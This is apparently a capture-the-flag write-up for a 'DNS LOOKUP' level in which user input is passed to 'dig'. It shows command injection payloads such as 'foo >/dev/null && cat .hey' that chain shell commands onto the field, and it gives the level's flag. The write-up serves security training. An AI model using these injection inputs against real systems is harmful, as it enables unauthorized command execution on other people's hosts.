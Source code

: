 # Level 15

## Description

A plain page with a single form field titled by "DNS LOOKUP".

If you enter any text, it appears to run `dig <text>`.

## Solution

When faced with a page like this one, where your output appears to be fed to a *ix command line, it's possible that if the application is written incorrectly it might be vulnerable to [Command Injection](https://www.owasp.org/index.php/Command_Injection).  This allows arbitrary commands to be run on the host.

Using simply shell techniques we appear to be able to execute arbitrary commands.  For example, typing `foo >/dev/null && echo vulnerable` prints the text `vulnerable` into the page.

From this point, anything is possible.  If we run `foo >/dev/null && ls -al`. we get the output:

```text
total 16
drwxr-xr-x 2 root   root   4096 Mar 13 13:47 .
drwxr-xr-x 9 root   root   4096 Mar 13 04:50 ..
-rwxr-xr-x 1 ubuntu ubuntu   37 Mar 13 18:49 .hey
-rwxr-xr-x 1 root   root   3815 Mar 13 18:49 index.php
```

In *ix, files can be marked as hidden files and not seen in typical directory listings by starting their filename with a `.`.  The file `.hey` certainly looks suspicious.

Sure enough, if we use `foo >/dev/null && cat .hey` we see:

```text
Miux+mT6Kkcx+IhyMjTFnxT6KjAa+i6ZLibC
```

This doesn't seem to match the format of previous flags, so I'm assuming that this is not the flag for this level.

Because the character set contains only alphabetic numbers and the symbol '+', this looks a lot like a [Base64](http://en.wikipedia.org/wiki/Base64) encoded string, however trying to decode this results in gibberish.

```python
>>> import base64
>>> repr(base64.b64decode('Miux+mT6Kkcx+IhyMjTFnxT6KjAa+i6ZLibC'))
"'2+\\xb1\\xfad\\xfa*G1\\xf8\\x88r24\\xc5\\x9f\\x14\\xfa*0\\x1a\\xfa.\\x99.&\\xc2'"
```

The next segment of this write-up was done in an IPython notebook, so follow [this link](http://nbviewer.ipython.org/github/gregnprosser/infosecinstitute-writeups/blob/master/level15/Mock-Base64.ipynb).

## Continues over [here](http://nbviewer.ipython.org/github/gregnprosser/infosecinstitute-writeups/blob/master/level15/Mock-Base64.ipynb)

## Flag

`infosec_flagis_rceatomized`
